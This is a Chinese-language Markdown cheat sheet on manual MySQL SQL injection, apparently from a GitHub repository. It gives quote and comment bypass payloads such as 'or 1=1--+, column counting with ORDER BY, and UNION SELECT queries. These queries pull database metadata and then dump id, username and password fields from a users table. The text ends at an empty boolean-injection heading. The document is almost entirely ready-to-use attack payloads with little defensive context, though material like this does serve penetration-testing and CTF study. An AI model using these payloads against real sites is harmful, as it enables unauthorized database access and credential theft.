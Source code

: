 ### 报错注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```
### 布尔注入
